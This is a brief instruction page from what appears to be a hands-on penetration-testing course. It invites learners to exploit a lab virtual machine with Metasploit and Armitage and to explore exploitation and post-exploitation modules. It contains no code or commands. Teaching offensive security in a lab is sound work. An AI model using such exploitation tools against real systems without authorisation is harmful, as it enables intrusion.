Compromised Host in Armitage

** Practice Time
Now that you have learned how to exploit hosts using Armitage, you will now get to practice your skills by hacking the virtual machine by using Metasploit and Armitage. There are multiple exploit paths that you may be able to follow. We encourage you to explore the various exploit paths you may be able to find in order to gain a better understanding of exploitation and post-exploitation modules in Metasploit and Armitage. As a reminder, Armitage is just Metasploit with a GUI; all the same exploits exist and are categorized the same way.
